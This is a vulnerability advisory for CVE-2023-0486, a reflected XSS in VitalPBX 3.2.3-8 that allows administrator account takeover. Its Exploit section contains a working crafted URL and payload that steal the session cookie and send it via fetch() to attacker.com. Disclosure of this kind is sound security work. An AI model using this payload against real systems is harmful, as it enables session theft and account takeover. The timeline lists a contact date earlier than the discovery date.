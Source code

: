 ```yaml
---
slug: advisories/smith/
title: VitalPBX 3.2.3-8 - Account Takeover via Reflected XSS
authors: Carlos Bello
writer: cbello
codename: smith
product: VitalPBX 3.2.3-8
date: 2023-04-10 12:00 COT
cveid: CVE-2023-0486
severity: 8.8
description: VitalPBX 3.2.3-8 - Account Takeover via Reflected XSS
keywords: Fluid Attacks, Security, Vulnerabilities, Vital PBX, Account Takeover
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                                      |
| --------------------- | -------------------------------------------------------------------- |
| **Name**              | VitalPBX 3.2.3-8 - Account Takeover via Reflected XSS                |
| **Code name**         | [Smith](https://en.wikipedia.org/wiki/Aaron_Smith_(DJ))              |
| **Product**           | VitalPBX                                                             |
| **Affected versions** | 3.2.3-8                                                              |
| **State**             | Public                                                               |
| **Release Date**      | 2023-04-10                                                           |

## Vulnerability

|                       |                                                                                                             |
| --------------------- | ------------------------------------------------------------------------------------------------------------|
| **Kind**              | Reflected cross-site scripting (XSS)                                                                        |
| **Rule**              | [008. Reflected cross-site scripting (XSS)](https://docs.fluidattacks.com/criteria/vulnerabilities/008)     |
| **Remote**            | Yes                                                                                                         |
| **CVSSv3 Vector**     | CVSS:AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H                                                                    |
| **CVSSv3 Base Score** | 8.8                                                                                                         |
| **Exploit available** | No                                                                                                          |
| **CVE ID(s)**         | [CVE-2023-0486](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0486)                               |

## Description

VitalPBX version 3.2.3-8 allows an unauthenticated external attacker to
obtain the instance's administrator account via a malicious link. This
is possible because the application is vulnerable to XSS.

## Vulnerability

This vulnerability occurs because the application is vulnerable to XSS.

### Exploit

To exploit this vulnerability, we just need to send a malicious url like
the following to the administrator.

```txt
http://vulnerable.com/?class=<img+src=1+onerror='sid=document.cookie.split(`;`)[0].split(`=`)[1];fetch(`https://attacker.com/vitalpbx/leak?sid=`%2bsid);'>&method=exportCDR&mode=add&refresh_mode=&cdr_filter_id=&source=&destination=&from=2023-01-25%2000%3A00%3A00&to=2023-01-25%2023%3A59%3A59&cdr-report-dt_length=10&format=pdf
```

The payload, in a more readable format, looks like this.

```js
sid=document.cookie.split(`;`)[0].split(`=`)[1];
fetch(`https://attacker.com/vitalpbx/leak?sid=`+sid);
```

## Evidence of exploitation

![ato-reflected-xss](https://user-images.githubusercontent.com/51862990/214717870-390d3c1e-15bd-4fde-85f7-f0d4a47233ce.gif)

![cookie-leak](https://user-images.githubusercontent.com/51862990/214718603-fa6e0405-e90b-4e30-be5a-1f1b3389e698.png)

## Our security policy

We have reserved the ID CVE-2023-0486 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: VitalPBX 3.2.3-8

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://vitalpbx.com/>

## Timeline

<time-lapse
  discovered="2023-01-24"
  contacted="2022-01-24"
  replied=""
  confirmed=""
  patched=""
  disclosure="2023-04-10">
</time-lapse>
